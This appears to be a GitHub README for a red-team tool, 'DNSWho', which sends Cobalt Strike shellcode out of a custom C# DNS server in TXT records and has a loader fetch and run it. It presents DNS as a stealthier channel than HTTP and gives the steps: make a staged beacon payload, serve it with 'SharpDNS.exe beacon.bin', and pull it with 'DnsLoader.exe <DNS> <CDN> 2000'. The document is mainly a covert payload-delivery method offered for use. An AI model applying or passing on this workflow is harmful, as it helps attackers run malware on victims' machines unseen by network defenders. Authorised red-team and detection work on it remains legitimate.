 # DNSWho

Implement a dns server = SharpDNS.exe             
Implement a "client" = DnsLoader.exe               

Compared with the http protocol, the dns protocol has better concealment. Analogous to the dns beacon of cs, we can implement a dns server to transmit shellcode by ourselves. C# has an excellent third-party library [ARSoft.Tools.Net](https://www.nuget.org/packages/ARSoft.Tools.Net/). We can use it for dns query and self-built dns server.               

Create a new console project of .net4.0 and install ARSoft.Tools.Net. Because of the .net version problem, we need to install the lower version of ARSoft.Tools.Net.                                   
[`Install-Package ARSoft.Tools.Net -Version 1.8.2`](https://www.nuget.org/packages/ARSoft.Tools.Net/1.8.2)            


![image](https://user-images.githubusercontent.com/25066959/104516114-d1b0b500-55c1-11eb-8bb5-98e9437d8775.png)             

So generate a raw cs payload if you are smart you wont make it stageless because it will be way to big.                 

![image](https://user-images.githubusercontent.com/25066959/104516517-78955100-55c2-11eb-99ce-2d8a5daf6e9a.png)                       

Then spinup the DNS server and make sure that the length is the same in wireshark as the one displayed in the terminal. `SharpDNS.exe beacon.bin`                       
The output will look like the following:                

![image](https://user-images.githubusercontent.com/25066959/105061777-e4a30980-5a47-11eb-906f-cdc712b8ae01.png)            

![image](https://user-images.githubusercontent.com/25066959/104516603-a24e7800-55c2-11eb-9805-fc644b49b11b.png)                         

then simply catch it `DnsLoader.exe <DNS> <CDN> 2000`                   

Note that the txt parsing of dns cannot be transmitted too much at a time, and the 2000 used in my test so that there is no problem.                    

![image](https://user-images.githubusercontent.com/25066959/104516478-61eefa00-55c2-11eb-90fd-74655d9c47fe.png)                      

Tada...                   

![image](https://user-images.githubusercontent.com/25066959/104516815-f48f9900-55c2-11eb-8175-7df4d4bbaedf.png)            



-----
If you get the following error this is because youre not running this on the same machine as your DNS. That is because svchost.exe listens to UDP53

![image](https://user-images.githubusercontent.com/25066959/104516892-1d179300-55c3-11eb-91e6-92c9c5aa2884.png)

Additionally dont try to change the port for the `DnsServer` because you cant:

![image](https://user-images.githubusercontent.com/25066959/104517202-9c0ccb80-55c3-11eb-895c-0d6ae9e45dd2.png)

![image](https://user-images.githubusercontent.com/25066959/104517231-ac24ab00-55c3-11eb-828e-7feb1e16d003.png)
